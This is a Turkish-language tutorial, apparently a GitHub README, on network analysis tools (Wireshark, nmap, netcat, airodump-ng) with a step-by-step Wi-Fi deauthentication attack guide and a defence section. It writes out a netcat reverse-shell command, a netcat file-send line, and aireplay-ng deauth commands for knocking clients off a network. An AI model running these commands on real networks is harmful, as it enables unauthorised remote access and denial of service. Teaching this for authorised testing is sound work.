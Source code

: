 # 📡 Ağları İnceleme (Network Analysis)

Ağları incelemek, ağ trafiğini izlemek, analiz etmek ve güvenlik açıklarını tespit etmek için kullanılan bir süreçtir. Siber güvenlik, penetrasyon testleri ve sistem yönetimi için kritik bir adımdır.

---

## 📌 1️⃣ Ağ İnceleme Yöntemleri
Ağ analizi için farklı teknikler ve araçlar kullanılır. İşte en yaygın yöntemler:

### 🔹 1. Pasif Ağ Analizi
Ağa müdahale etmeden sadece trafiği dinleyerek analiz yapma işlemidir.
- **Sniffing (Paket Dinleme)** yöntemi ile ağdan geçen veriler incelenir.
- **Araçlar:** Wireshark, tcpdump, Tshark, Ettercap

✅ **Kullanım Alanları:**
- Ağ trafiğini izleme
- Anormal veri akışlarını tespit etme
- Olası saldırıları analiz etme

### 🔹 2. Aktif Ağ Analizi
Ağa doğrudan müdahale ederek testler yapma işlemidir.
- Paket enjeksiyonu, tarama ve pentest teknikleri kullanılır.
- **Araçlar:** Nmap, Netcat, Scapy, Nessus

✅ **Kullanım Alanları:**
- Açık portları ve servisleri tespit etme
- Zafiyet tarama ve güvenlik testi yapma
- Ağ güvenlik politikalarını denetleme

---

## 📌 2️⃣ Kullanılan Araçlar ve Teknikler

### 🔍 1. Wireshark (Paket Analizi)
Wireshark, ağ trafiğini yakalayıp analiz etmek için kullanılan en popüler araçlardan biridir.

**Linux'ta Kurulum:**
```bash
sudo apt install wireshark -y
```

**Ağ Trafiği Dinleme:**
```bash
sudo wireshark
```
Wireshark ile HTTP, DNS, TCP, UDP, ICMP paketlerini analiz edebilirsin.

### 🔍 2. Nmap (Ağ Tarama ve Keşif)
Nmap, ağ haritası çıkarmak, açık portları bulmak ve sistem bilgilerini toplamak için kullanılan bir araçtır.

**Linux'ta Kurulum:**
```bash
sudo apt install nmap -y
```

📌 **Tüm açık portları tarama:**
```bash
nmap -p- 192.168.1.1
```

📌 **Ağ üzerindeki cihazları listeleme:**
```bash
nmap -sn 192.168.1.0/24
```

📌 **Hedef sistemde çalışan servisleri tespit etme:**
```bash
nmap -sV 192.168.1.1
```

### 🔍 3. Netcat (Ağ Bağlantı Testi ve Reverse Shell)
Netcat, ağ üzerindeki bağlantıları test etmek ve veri alışverişi yapmak için kullanılır.

📌 **Hedef sistemin açık olup olmadığını kontrol etme:**
```bash
nc -zv 192.168.1.1 80
```

📌 **Hedef sisteme dosya gönderme:**
```bash
nc 192.168.1.1 4444 < dosya.txt
```

📌 **Reverse Shell oluşturma:**
```bash
nc -e /bin/bash 192.168.1.100 4444
```

### 🔍 4. Airodump-ng (Kablosuz Ağ Analizi)
Airodump-ng, Wi-Fi ağlarını analiz etmek, MAC adreslerini ve sinyal seviyelerini görüntülemek için kullanılır.

📌 **Monitor modunu aktif hale getirme:**
```bash
sudo airmon-ng start wlan0
```

📌 **Etraftaki kablosuz ağları listeleme:**
```bash
sudo airodump-ng wlan0mon
```

📌 **Hedef bir ağı izleme:**
```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w dump wlan0mon
```

---

## 📌 3️⃣ Ağ Analizi Yaparken Dikkat Edilmesi Gerekenler

🔴 **Etik Kurallar:** Kendi iznin olmayan ağları taramak yasal değildir.
🟢 **Güvenlik Testleri:** Ağ güvenliği testleri için izinli ortamlarda çalışmalısın.
🔴 **Veri Gizliliği:** Ağdaki kullanıcıların kişisel bilgilerini saklamamak ve paylaşmamak gerekir.

---

## 📌 4️⃣ Deauthentication (Deauth) Saldırısı Nedir ve Nasıl Yapılır?

Deauth saldırısı, Wi-Fi ağlarında istemcileri (bağlı cihazları) erişim noktasından (router/modem) koparmak için kullanılan bir saldırı türüdür. 802.11 Wi-Fi protokolündeki zayıflıklardan yararlanarak gerçekleştirilir.

📌 **Kullanım Alanları:**
- **Penetrasyon Testleri:** Ağ güvenliğini test etmek için.
- **Saldırı Senaryoları:** Evil Twin veya Man-in-the-Middle (MitM) saldırılarına zemin hazırlamak için.
- **Ağ Güvenlik Analizi:** Kablosuz ağların savunmasız olup olmadığını belirlemek için.

❗ **Uyarı:** Bu işlem yalnızca kendi ağında veya iznin olan ağlarda yapılmalıdır. Yetkisiz bir ağa saldırmak **yasal değildir**.

### 📌 1️⃣ Deauth Saldırısı İçin Gerekli Araçlar
- Linux işletim sistemi (Kali Linux önerilir)
- Monitor mod destekli Wi-Fi adaptörü
- **Aircrack-ng** aracı (Kablosuz ağ analizi için)

**Linux'ta Aircrack-ng'yi yüklemek için:**
```bash
sudo apt update && sudo apt install aircrack-ng -y
```

### 🔍 2. Deauth Saldırısı Nasıl Yapılır?
📌 **Monitor modunu aktif hale getirme:**
```bash
sudo airmon-ng start wlan0
```

📌 **Ağları tarama ve hedef seçme:**
```bash
sudo airodump-ng wlan0mon
```

📌 **Belirli bir ağı hedefleyerek izleme:**
```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w dump wlan0mon
```

📌 **Tüm istemcileri ağdan düşürmek için:**
```bash
sudo aireplay-ng --deauth 1000 -a [Ağ MAC] wlan0mon
```

📌 **Belirli bir cihazı hedef almak için:**
```bash
sudo aireplay-ng --deauth 1000 -a [Ağ MAC] -c [Hedef MAC] wlan0mon
```

---

## 📌 5️⃣ Deauth Saldırısına Karşı Korunma

🛡️ Güçlü **WPA2/WPA3 Şifreleme** kullanın.
🛡️ **MAC Filtreleme ve 802.11w** özelliklerini etkinleştirin.
🛡️ **VPN** kullanarak saldırganların paketleri analiz etmesini zorlaştırın.
🛡️ **Wi-Fi Ağ Adınızı (SSID) Gizleyin.**

---

✅ **Özet:**
- **Wireshark:** Trafik izleme ve analiz
- **Nmap:** Açık portları ve ağ cihazlarını tespit etme
- **Netcat:** Bağlantı testleri ve veri transferi
- **Airodump-ng:** Kablosuz ağları analiz etme

📢 **Etik hackerlar ve siber güvenlik uzmanları için önemli bir bilgi kaynağı!** 🚀

